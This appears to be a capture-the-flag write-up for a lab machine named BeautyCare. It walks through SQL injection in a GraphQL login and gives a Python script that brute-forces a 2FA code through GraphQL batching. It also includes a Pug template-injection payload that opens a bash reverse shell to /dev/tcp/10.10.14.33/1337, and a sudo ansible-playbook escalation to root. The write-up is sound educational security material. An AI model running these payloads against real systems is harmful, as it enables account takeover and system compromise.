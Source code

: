 # BeautyCare

## Initial Foothold

Doing an `nmap` scan showed an Nginx server at port 80.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: El BeautyCare
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Running a GoBuster scan on the webserver revealed the `/admin` and `/graphql` endpoints.

When visiting the `/admin` endpoint, we see a login panel. The credentials are sent as a POST request to the `/graphql` endpoint.

{% code overflow="wrap" %}
```http
POST /graphql HTTP/1.1
Host: 10.129.255.102
Content-Length: 118
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.72 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://10.129.255.102
Referer: http://10.129.255.102/admin
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{"query":"mutation {\n    LoginUser(username: \"test\", password: \"test\"){\n        message,\n        token    \n}\n}"}
```
{% endcode %}

By fuzzing both the `username` and `password` fields, we quickly find that there is an SQL injection through the `username` field.

{% code overflow="wrap" %}
```
Error: ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```
{% endcode %}

To quickly exploit this, I used SQLmap and specified a custom injection point:

{% code overflow="wrap" %}
```http
POST /graphql HTTP/1.1
Host: 10.129.255.102
Content-Length: 118
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.72 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://10.129.255.102
Referer: http://10.129.255.102/admin
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{"query":"mutation {\n    LoginUser(username: \"*\", password: \"test\"){\n        message,\n        token    \n}\n}"}
```
{% endcode %}

These gave the credentials `john:iamcool`. Upon logging in, though, we are prompted for our 2FA OTP. Since it was a 4-digit number, there were 10,000 possible OTP codes.

In GraphQL, a mechanism known as [batching](https://www.apollographql.com/blog/apollo-client/performance/batching-client-graphql-queries/) allows us to send multiple GraphQL queries in a single HTTP request. So instead of sending a single `verify2FA` mutation like so:

{% code overflow="wrap" %}
```json
{"query":"mutation {verify2FA(otp: \"0000\"){ message, token }"}
```
{% endcode %}

We could send multiple mutations like so:

{% code overflow="wrap" %}
```json
{"query":"mutation {verify0: verify2FA(otp: \"0000\"){ message, token } verify1: verify2FA(otp: \"0001\"){ message, token }"}
```
{% endcode %}

This allows us to bruteforce a significant number of OTP codes in a single request, reducing the total number of HTTP requests needed. However, due to limitations on the total length of a single request body, we still need to split the search space into multiple requests.

In the following script, we split the search space into 10 HTTP requests, each testing 1,000 OTP codes.

```python
import requests
import time

for i in range(10):
    res = ""
    for i in range(i * 1000, (i + 1) * 1000):
        res += f"verify{i}: verify2FA(otp: \"{str(i).zfill(4)}\"){{ message, token }}"

    qry = "mutation {" + res + "}"

    r = requests.post("http://10.129.255.102/graphql",
        json={"query": qry},
        headers={"Content-Type": "application/json"},
        cookies={
            "session": "<SESSION-COOKIE>"
        }, 
        proxies={'http': 'http://localhost:8080'}
    )

    data = r.json()['data']
    for key, value in data.items():
        if value != None:
            print(key, value)

    time.sleep(2)
```

This allows us to find the correct code in a couple of seconds.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Now, we can head over to the admin dashboard at `/admin/dashboard`. We are presented with a UI for saving and previewing email templates, which leads us to believe that there might be an [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) vulnerability.

From the HTTP response headers, we could also gather that the server was running an Express.js application, allowing us to narrow down the templating engine as [Pug](https://pugjs.org/).

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Using the following payload, we can spawn a reverse shell when previewing the template, allowing us to get a shell as `john`.

{% code overflow="wrap" %}
```java
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('bash -i >& /dev/tcp/10.10.14.33/1337 0>&1')}()}
```
{% endcode %}

## Privilege Escalation

Running LinPEAS on the target server revealed that `john` can run `ansible-playbook` with sudo privileges.

```
User john may run the following commands on beautycare:
    (root) NOPASSWD: /usr/bin/ansible-playbook
```

To exploit this, we create a playbook that assigns SUID permissions to `/bin/bash`.

```yaml
---                                                                                                               
- name: shell                                                                                                  
  hosts: localhost
  become: yes

  tasks:
  - name: hack
    shell: "cp /bin/bash . && chmod +sx bash"
```

Then we can just run `sudo ansible-playbook pwn.yml` to run the playbook's command as `root`, and then `bash -p` to gain a bash shell with root privileges through the SUID permission.
